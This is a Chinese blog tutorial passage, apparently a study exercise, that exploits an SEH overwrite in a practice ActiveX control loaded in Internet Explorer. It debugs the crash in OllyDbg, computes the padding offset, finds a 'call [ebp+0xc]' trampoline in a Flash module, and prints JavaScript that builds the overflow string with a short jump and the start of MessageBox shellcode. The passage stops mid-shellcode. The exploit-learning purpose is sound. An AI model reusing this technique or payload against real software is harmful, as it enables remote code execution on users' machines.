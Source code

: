 打开网页，到下图这个地方时先不要点：

![Bildschirmfoto 2018-10-02 um 11.29.22 AM.png]({{ site.url }}/images/0day/AA8479C303268687EE955634A8FEBB20.png)

这时打开OD并附加到IE上，在OD中进入我们的控件模块并找到`printf("aaaa")`处下断点：

![Bildschirmfoto 2018-10-02 um 11.36.48 AM.png]({{ site.url }}/images/0day/5CB6E411E784B637A38772E36E78A63C.png)

![Bildschirmfoto 2018-10-02 um 11.36.54 AM.png]({{ site.url }}/images/0day/26BDE5F97517E3EDE66ECAC1D77F67E2.png)

![Bildschirmfoto 2018-10-02 um 11.38.10 AM.png]({{ site.url }}/images/0day/C0B4DFF644ECD7DF761126C2537AB943.png)

下好断点后，F9，在页面中点击“是”，接着OD中断在刚才的断点处，我们往后单步到sprintf时：

![Bildschirmfoto 2018-10-02 um 12.06.13 PM.png]({{ site.url }}/images/0day/086B33AFA6633A56D8C3CCB5F8441840.png)

此时SEH链如下：

![Bildschirmfoto 2018-10-02 um 12.05.28 PM.png]({{ site.url }}/images/0day/E3EBF3C8B32FBFFD695A550D16BFEAD0.png)

如图所示，缓冲区起始地址为`ebp - 0x88`，即`0x12e014`，而栈顶的SEH处理函数位于`0x12e090`处。所以我们需要124个填充字节，然后放置跳板。

在寻找跳板时，我的OD意外退出。参考[这篇文章](https://blog.csdn.net/Yx0051/article/details/76736553)，我也通过进入可执行模块`Flash9f`去手动搜索跳板`call [ebp + 0xc]`：

![Bildschirmfoto 2018-10-02 um 12.10.26 PM.png]({{ site.url }}/images/0day/F48DA8C69D6DFF11F466B8BC42444B3B.png)

地址也是`0x300b2d1c`。

接下来我们先把跳板放入shellcode，再次调试：

```html
  <script>
	var s = "\u9090";
	while (s.length < 62) {
		s += "\u9090";
	}
	s += "\u2d1c\u300b";
	test.test(s);  
  </script>
```

![Bildschirmfoto 2018-10-02 um 1.27.58 PM.png]({{ site.url }}/images/0day/12CFA45BDFFF7368C04392D2C950F5B9.png)

发现跳板最后会返回到的`ebp + 0xc`正是一个SEH节点的后向指针处。我们看一下这个地方：

![Bildschirmfoto 2018-10-02 um 2.58.09 PM.png]({{ site.url }}/images/0day/0C176F2AAE96C808D7F3391B84A69AF6.png)

发现之前的跳板地址`0x300b2d1c`及其后面的垃圾指令会干扰shellcode执行，所以我们考虑在这里开始的地方（`0x0012E08C`）放置一个短跳，跳过后面的垃圾指令。

最终shellcode如下：

```js
    // 120  nop
	var s = "\u9090";
	while (s.length < 60) {
		s += "\u9090";
	}
	// 4   short jmp
	s += "\u0eeb\u9090";
	// 4    ptr to call ebp+0xc
	s += "\u2d1c\u300b";
	// 8    nop   
	s += "\u9090\u9090\u9090\u9090";
	// 168  messagebox
	s += "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91";
	s += "\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332";
	s += "\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c";
```